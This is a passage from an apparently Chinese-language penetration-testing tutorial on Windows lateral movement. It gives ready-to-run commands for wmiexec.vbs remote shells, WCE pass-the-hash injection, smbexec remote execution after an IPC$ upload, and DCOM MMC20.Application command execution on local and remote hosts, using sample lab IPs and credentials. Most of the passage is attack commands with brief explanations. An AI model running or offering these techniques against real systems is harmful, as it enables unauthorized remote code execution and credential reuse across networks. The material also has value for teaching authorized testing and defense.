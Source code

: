 ```
cscript.exe //nologo wmiexec.vbs /shell 192.168.100.190 administrator 123456      #半交互式shell模式cscript.exe wmiexec.vbs /cmd 192.168.100.190 administrator 123456 "ipconfig"      #远程执行命令#wmiexec.vbs已被列入各大安全厂商的黑名单
```

上面是提供账号密码的情况，如果有时候我们抓取到的是 hash，破解不了时可以利用 WCE 的 hash 注入，然后再执行 WMIEXEC（不提供账号密码）就可以了：

```
wce.exe -s 用户名:机器名或ip:LM-HASH:NT-HASHwce.exe -s 用户名:域名:LM-HASH:NT-HASH#Tips：如果抓取的 LM hash 是 AAD3 开头的，或者是 No Password 之类的，就用 32 个 0 代替 LM hash 即可
```

wce 下载链接

相关设定：

```
Const Path = "C:\\"Const FileName = "wmi.dll"Const timeOut = 1200#这段代码在脚本的一开始，是控制结果文件路径、文件名、以及默认代码执行时间的，可以自行更改
```

wmiexec.vbs 下载链接

### 5.7 smbexec 的使用

smbexec 是需要提前将自身上传到目标服务器上的

```
test.exe：客户端主程序execserver.exe：目标系统中的辅助程序
```

```
net use \\\\192.168.100.205 "123456" /user:pentest.com\\administrator#将execserver.exe上传到目标系统的C:\\windows\\目录下smbexec.exe 192.168.100.205 administrator 123456 whoami c$
```

### 5.8 DCOM 在远程系统中的使用

DOCM(分布式组件对象模型) 是微软一系列概念和程序接口，通过 DOCM，客户端程序对象能够向网络中的另一台计算机上的服务程序对象发送请求

通过本地 DCOM 执行命令：

```
Get-CimInstance Win32\_DCOMApplication#使用 Poweshell3.0 获取本地 DCOM 程序列表(win server 2012以上)Get-WmiObject -Namespace ROOT\\CIMV2 -Class Win32\_DCOMApplication#使用 Poweshell2.0 获取本地 DCOM 程序列表(win7、win server 2008)$com=\[activator\]::CreateInstance(\[type\]::GetTypeFromProgID("MMC20.Application","127.0.0.1"))$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c calc.exe","Minimzed")#通过Powershell使用DCOM本地执行calc.exe
```

使用 DCOM 远程执行命令：

```
net use \\\\192.168.100.190\\ipc$ "123456" /user:administrator#首先需使用本地账号建立远程IPC$连接$com=\[activator\]::CreateInstance(\[type\]::GetTypeFromProgID("MMC20.Application","192.168.100.190"))$com.Document.ActiveView.ExecuteShellCommand('cmd.exe',$null,"/c calc.exe","")#通过Powershell使用DCOM远程执行calc.exe
```

### 5.9 WinRM 远程管理服务
